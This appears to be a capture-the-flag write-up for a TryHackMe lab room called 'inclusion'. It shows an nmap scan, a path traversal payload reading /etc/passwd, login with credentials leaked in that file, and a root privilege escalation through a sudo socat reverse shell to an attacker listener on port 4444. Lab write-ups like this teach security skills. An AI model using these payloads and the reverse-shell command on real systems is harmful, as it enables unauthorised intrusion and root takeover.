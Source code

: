 # Inclusion

This is for my room named `inclusion` on TryHackMe.com

## NMAP

![](images/nmap.png)

We start with nmap scan and find out that only port 22 and 80 is open.

## HTTP

If we start looking on port 80 we'll notice a minimal website which seems like a blog under development.

![](images/website.png)

We notice that there are 3 `articles` we can click on any of those and notice the URL it's like `http://inclusion.local/article?name=hacking` so there is a parameter which we can test for LFI/RFI/SQLi or other vulnerabilities. But since other articles were talking about LFI/RFI we would test for those first.

![](images/passwd.png)

We find out that we can included the `/etc/passwd` file using path traversal technique

```bash
../../../../../../../../../../../../../../../../../../etc/passwd
```

so in the `name` parameter we pass that value and we are able to read the `/etc/passwd` file meaning it was LFI. We also notice that there is a comment which contains a username and password.

So I used `falconfeast` as username and `rootpassword` as password to login into the machine via SSH.

![](images/ssh.png)

And now we can read `user.txt` which is in `/home/falconfeast`.

## Privilege escalation

Since we are a user on the system I checked for sudo right of that user by running

```bash
sudo -l
```
![](images/sudo.png)

We can see that `falconfeast` can run `socat` as `root`. We can search [gtfobins](gtfobins.github.io/) for socat binary. You can also search that using tool like [gtfo](github.com/mzfr/gtfo).

![](images/gtfo.png)

We see that we can get a reverse shell using `socat`. We run the following command from the machine while our listener is listening on port `4444`

```bash
$ sudo -u root /usr/bin/socat tcp-connect:192.168.1.107:4444 exec:sh,pty,stderr,setsid,sigint,sane
```

![](images/root.png)

